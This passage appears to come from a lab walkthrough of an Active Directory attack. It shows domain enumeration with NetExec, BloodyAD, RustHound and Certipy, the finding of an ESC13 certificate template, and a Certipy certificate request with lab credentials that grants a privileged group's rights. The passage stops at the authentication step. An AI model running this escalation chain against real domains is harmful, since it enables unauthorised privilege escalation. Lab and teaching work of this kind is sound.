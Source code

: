     
*   **D. Domain Enumeration:**
    With port forwards active, we target the local forwarded ports on Exegol.
    *   **NetExec (NXC):**
        Initial enumeration of users and shares. Discovery of a "HR" share.
        ![NXC SMB Enumeration Output](https://github.com/user-attachments/assets/dd2d9540-39c5-4b95-82e8-9862fec760c2) <!-- Updated Alt Text -->
        Querying for ADCS using the LDAP module.
        ![NXC ADCS LDAP Query Output](https://github.com/user-attachments/assets/9797a22d-ea7a-4eca-919e-d2e82b707cc4) <!-- Updated Alt Text -->
    *   **BloodyAD:**
        Quick view of our own attributes.
        ![BloodyAD User Attributes Output](https://github.com/user-attachments/assets/60a08488-0053-4639-ab48-80c4079bed94) <!-- Updated Alt Text -->

    *   **RustHound:**
        Offline analysis of the domain. 
        ![RustHound Collector Output/GIF](https://github.com/user-attachments/assets/881d8e7e-2be3-415a-beab-00814e6e79b0) <!-- Updated Alt Text -->
        Initial findings led to the discovery of a group (`Helpdesk`) delegated `ForceChangePassword` over several users.
        ![BloodHound ForceChangePassword Path GIF/Image](https://github.com/user-attachments/assets/5f1b9ab2-8035-4443-b254-5efc208dd8d0) <!-- Updated Alt Text -->

    *   **Certipy:**
        Enumerating for vulnerable templates.
        ![Certipy Find Command GIF/Image](https://github.com/user-attachments/assets/923ac8c9-6254-4908-a351-ccfc4a8862d9) <!-- Updated Alt Text -->
        Immediate discovery of a potentially exploitable ESC13 template (`HRRemoteAccess`).
        ![Certipy ESC13 Vulnerable Template Output](https://github.com/user-attachments/assets/07dbc91a-5df2-4fa9-858d-4934a516bc6f) <!-- Updated Alt Text -->
   *   **Exploring ESC13:**
       Key components from the Certipy output for `HRRemoteAccess` template:
       ```text
       Extended Key Usage: Client Authentication # Allows the template to be used for network logon
       Issuance Policies : 1.3.6.1.4.1.311.21.8.14321096.730787.4278970.16068073.7715374.74.12681378.11722089 # OID linked via Issuance Policy
       Linked Groups     : CN=HR Access,OU=SecurityGroups,OU=CORPO,DC=lab,DC=local # Group linked to the OID
       Enrollment Rights : LAB.LOCAL\Helpdesk # Our current user (t.howard is in Helpdesk) can enroll
                           LAB.LOCAL\HR Members                      
       ```
       Reference: [Certipy Wiki - ESC13](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc13-issuance-policy-with-privileged-group-linked).
       > Fundamentally, the presence of the Linked Group and our ability to enrol give us functionally equivalent access rights as that group. 

<details><summary><strong>My Thoughts & Observations (Phase 2)</strong></summary></details>

<details><summary><strong>Mitigation & Detection Considerations (Phase 2)</strong></summary></details>

### 💥 Phase 3: Exploitation (Accessing HR Data)
*   **Certificate Request (Certipy):**
    As `t.howard`, request a certificate using the vulnerable `HRRemoteAccessTemplate`.
    ```bash
    [Jun 01, 2025 - 11:58:12 (BST)] exegol-lab1 /workspace # certipy req -u 't.howard' -p 'Summer2025' -dc-ip 127.0.0.1 -target 'LAB-DC01.lab.local' -ca 'LAB-DC01-CA' -template 'HRRemoteAccess'
    Certipy v5.0.2 - by Oliver Lyak (ly4k)
    [*] Requesting certificate via RPC
    [*] Request ID is 5
    [*] Successfully requested certificate
    [*] Got certificate with UPN 't.howard@lab.local'
    [*] Certificate object SID is 'S-1-5-21-2722926128-310879818-2353593629-1120'
    [*] Saving certificate and private key to 't.howard.pfx'
    [*] Wrote certificate and private key to 't.howard.pfx'
    ```
*   **Authentication with Certificate & Privilege Gain (Certipy):**